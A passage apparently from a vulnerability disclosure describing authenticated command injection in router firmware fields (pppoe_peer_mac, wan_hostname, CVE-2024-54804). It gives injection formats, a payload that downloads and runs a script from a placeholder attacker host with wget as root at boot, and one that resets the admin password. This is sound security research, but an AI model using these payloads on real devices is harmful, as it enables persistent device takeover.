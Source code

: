 **Exploit format.**
```
pppoe_peer_mac=;command_to_execute #
```
Example:
```
pppoe_peer_mac=;{wget http://ATTACKER/m.sh -P /tmp/ && /tmp/m.sh} #
```

Steps:
1. Set `wan_proto=pppoe`.
2. Set `pppoe_peer_mac` to injected payload.
3. Reboot; command runs with root at startup.

---

<a name="cve-2024-54804"></a>
### WAN_HOSTNAME Authenticated Command Injection (Boot Persistent) (CVE-2024-54804)

**Summary.** Authenticated **command injection** in `/bin/sysinit` via **`wan_hostname`**; value flows to:
```c
sprintf(var, "netbios %s %s &", r4, r3)  // r3 = wan_hostname
```
Executed later via `system()`, **persisting** across reboots.

![](/assets/posts/2025-03-25/6.png)

**Exploit format.**
```
wan_hostname=;command_to_execute #
```
Example (change admin password):
```
wan_hostname=;nvram set http_passwd=pwnd #
```

---

<a name="cve-2024-54805"></a>
### Sendmail Authenticated Command Injection (CVE-2024-54805)
